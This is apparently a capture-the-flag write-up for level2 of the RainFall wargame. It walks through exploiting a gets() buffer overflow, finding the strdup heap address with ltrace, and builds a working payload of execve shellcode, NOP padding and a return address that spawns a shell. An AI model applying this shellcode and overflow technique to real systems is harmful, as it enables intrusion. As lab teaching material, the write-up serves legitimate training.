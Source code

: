 Using a decompiler we see that the main use a function `p` where `gets` is used
with a buffer so we can exploit it to store a shellcode. A check is made to
prevent `EIP` to store a lower address in the stack. The `p` function also use
`strdup` to copy the buffer content in the heap.

Using ltrace we can get the return address of `strdup`, which is also the address
of our shellcode thanks to the copy of the buffer made by `strdup`.

```Shell
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008

```

Using gdb and a buffer overlow pattern we can see that we have 80 bytes before 
EIP to store our shellcode.

We will use a shellcode that open a terminal of 21 bytes so we need to add 59 bytes
of `NOP` instructions for the padding (21 + 59 = 80 bytes). Then we replace `EIP`
with the address of `strdup` return (in little endian) to pass the check mentioned
earlier.

```Shell
python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/playload2
cat /tmp/playload2 - | ./level2

```
